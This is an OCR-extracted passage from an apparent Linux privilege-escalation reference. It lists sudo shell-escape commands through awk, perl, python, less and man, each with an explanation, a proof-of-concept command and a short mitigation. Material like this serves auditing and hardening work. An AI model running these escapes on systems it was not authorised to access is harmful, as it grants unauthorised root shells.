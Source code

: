     **PoC:**
    
    ```bash
    sudo awk 'BEGIN {system("/bin/bash")}'
    ```
    
    **Mitigation:** Restrict `sudo` permissions for `awk` or use limited privileges.
    
    ---
    
    ### 2.1.6 `perl`
    
    **Command:** `sudo perl -e 'exec "/bin/bash";'`
    
    **Explanation:** `perl` can execute system commands directly. By spawning a shell with `exec`, attackers gain a root shell.
    
    **PoC:**
    
    ```bash
    sudo perl -e 'exec "/bin/bash";'
    ```
    
    **Mitigation:** Limit `sudo` permissions for `perl`.
    
    ---
    
    ### 2.1.7 `python`
    
    **Command:** `sudo python -c 'import pty;pty.spawn("/bin/bash")'`
    
    **Explanation:** `python` can spawn interactive shells through `pty.spawn`. This method grants attackers a root shell.
    
    **PoC:**
    
    ```bash
    sudo python -c 'import pty;pty.spawn("/bin/bash")'
    ```
    
    **Mitigation:** Remove `sudo` privileges for `python` or enforce restricted permissions.
    
    ---
    
    ### 2.1.8 `less` and `man`
    
    **Commands:**
    
    - `sudo less /etc/hosts - !bash`
    - `sudo man man - !bash`
    
    **Explanation:** `less` and `man` can be exploited through their shell command escape sequences (`!`). Running these commands with `sudo` access allows an attacker to spawn a privileged shell.
    
    **PoC:**
    
    ```bash
    sudo less /etc/hosts - !bash
    